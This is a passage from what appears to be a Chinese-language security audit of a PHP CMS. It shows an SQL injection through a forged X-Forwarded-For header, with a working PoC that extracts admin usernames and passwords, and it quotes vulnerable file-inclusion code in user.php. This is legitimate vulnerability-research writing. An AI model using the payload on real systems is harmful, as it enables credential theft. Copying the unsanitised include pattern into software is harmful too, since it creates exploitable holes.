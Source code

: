 对其他参数进行gpc转译和字符的intval强制转换。

可这个 `getip` 函数就出了问题，没有过滤。那么我们就可以伪造 ip 造成sql注入了，

测试评论功能正常，

![image-20210217130206619](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217130206619.png)

我们可以修改源码让其将执行的sql 语句执行出来，然后结束程序。

![image-20210217130251250](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217130251250.png)

可以看到可成功伪造 ip

得到sql语句

```sql
INSERT INTO blue_comment (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '1', '1', '1', '6', '123', '1613538389', '1.1.1.1,'1')
```



![image-20210217130425682](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217130425682.png)

那么我们在伪造 ip 的 评论处构造 sql语句，

poc:

```php
X-Forwarded-For: 1.1.1.1','1'), ('', '1', '1', '1', '6', (select group_concat(admin_name,":",pwd) from blue_admin), '1613538242', '1.1.1.1
```

发布评论成功

![image-20210217131008151](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217131008151.png)

成功注入

![image-20210217131029568](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217131029568.png)

#### 2.3 文件包含漏洞

![image-20210217131249998](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217131249998.png)

`user.php` 750行

```php
 elseif ($act == 'pay'){
 	include 'data/pay.cache.php';
 	$price = $_POST['price'];
 	$id = $_POST['id'];
 	$name = $_POST['name'];
 	if (empty($_POST['pay'])) {
 		showmsg('对不起，您没有选择支付方式');
 	}
 	include 'include/payment/'.$_POST['pay']."/index.php";
 }
```
